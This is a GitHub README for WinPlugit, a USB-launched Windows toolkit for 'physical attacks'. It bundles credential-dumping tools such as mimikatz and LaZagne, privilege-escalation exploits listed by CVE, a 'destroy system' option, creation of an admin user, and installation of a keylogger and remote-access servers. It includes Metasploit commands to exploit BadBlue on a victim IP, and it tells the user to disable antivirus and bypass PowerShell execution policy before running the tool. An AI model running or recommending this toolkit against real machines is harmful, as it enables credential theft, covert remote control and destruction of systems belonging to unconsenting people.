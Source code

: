 # WinPlugit

[![Version](https://img.shields.io/badge/Version-1.0-orange.svg?style=for-the-badge)]()
[![Available](https://img.shields.io/badge/Available-Windows-blue.svg?style=for-the-badge)]()
[![Download](https://img.shields.io/badge/Size-70Mo-brightgreen.svg?style=for-the-badge)]()
[![License](https://img.shields.io/badge/License-GPL%20v3%2B-red.svg?style=for-the-badge)]()

### Author: github.com/hacknonym

##  A tool for physical attacks

![Banner](https://user-images.githubusercontent.com/55319869/87228368-194f4d80-c3a1-11ea-91ab-195b059f9a88.PNG)

**Plugit** is a compact multi purpose tool for physical attacks. #plugit #physical-attack #WinPlugit

## Features !
- Choose the number of terminals to open to execute several tasks at the same time
- Enumeration of the system
	* [Password Recovery Utilities](https://www.nirsoft.net/utils/) (BulletsPassView, ChromePass, iepv, mailpv, mspass, netpass, OperaPassView, PasswordFox, ProduKey, pspv, PstPassword, rdpv, RouterPassView, VNCPassView, WebBrowserPassView, WirelessKeyView, WNetWatcher)
	* [mimikatz](https://github.com/gentilkiwi/mimikatz/)
	* [wce](https://github.com/returnvar/wce)
	* [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)
	* [WindowsEnum](https://github.com/absolomb/WindowsEnum)
	* [SeatBelt](https://github.com/GhostPack/Seatbelt)
	* [SharpWeb](https://github.com/djhohnstein/SharpWeb)
	* [LaZagne](https://github.com/AlessandroZ/LaZagne)
	* [SharpShares](https://github.com/djhohnstein/SharpShares)
	* [Watson](https://github.com/rasta-mouse/Watson)
- Search important files using keywords
- Scan the network [IPv4NetworkScanner](https://github.com/BornToBeRoot/PowerShell_IPv4NetworkScanner)
- Privileges escalation
	* [Exploits](https://github.com/WindowsExploits/Exploits) (CVE-2012-0217, CVE-2016-3309, CVE-2016-3371, CVE-2016-7255, CVE-2017-0213)
- Destroy system
- Create an admin user
- Change the password of the current user
- Install programs
	* [SSH Server - Bitvise](https://www.bitvise.com/ssh-server-download)
	* [FTP Server - Filezilla](https://filezilla-project.org/download.php?type=server)
	* [VNC Server - TightVNC](https://tightvnc.com/)
	* [Telnet Server - Pragma Systems](https://www.pragmasys.com/telnet-server)
	* Shadow Keylogger
	* BadBlue
	
### Using BadBlue
```bash
$> sudo msfconsole -q
msf5 > use exploit/windows/http/badblue_passthru
msf5 > set RPORT 80
msf5 > set RHOSTS <VICTIM_IP>
msf5 > exploit
```

## Usage protocol
Start the installation from a USB key (**2GB** sufficient).<br/>

### Usage
Before plugging the USB key, try to deactivate the antivirus<br/>
Simply launch the program **Launch.bat** or from the Command Prompt **cmd**
```PowerShell
powershell -ExecutionPolicy Bypass -File .\plugit.ps1 -nb <NB_Terminal>		# Default 1
```

## Tools Overview
![Launch](https://user-images.githubusercontent.com/55319869/87228335-d5f4df00-c3a0-11ea-91cb-3907a646a290.PNG)
![Search files](https://user-images.githubusercontent.com/55319869/87228347-ec029f80-c3a0-11ea-901b-6037e1a8f6d0.PNG)
![Install Programs](https://user-images.githubusercontent.com/55319869/87228342-e0af7400-c3a0-11ea-8027-3815fd4e450c.PNG)

## License
GNU General Public License v3.0 for Plugit
AUTHOR: @hacknonym


